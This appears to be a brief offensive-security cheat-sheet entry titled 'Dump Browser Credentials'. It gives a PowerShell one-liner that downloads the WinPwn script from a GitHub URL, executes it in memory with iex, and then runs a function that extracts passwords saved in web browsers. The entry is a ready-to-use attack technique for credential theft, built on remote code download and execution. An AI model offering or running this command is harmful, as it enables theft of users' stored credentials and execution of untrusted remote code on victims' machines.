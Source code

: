 # Dump Browser Credentials

## WinPwn

WinPwn dumps credentials stored in browsers.

```powershell
iex(New-Object Net.Webclient).DownloadString('https://raw.githubusercontent.com/S3cur3Th1sSh1t/WinPwn/master/WinPwn.ps1')
Kittielocal -noninteractive -browsercredentials
```

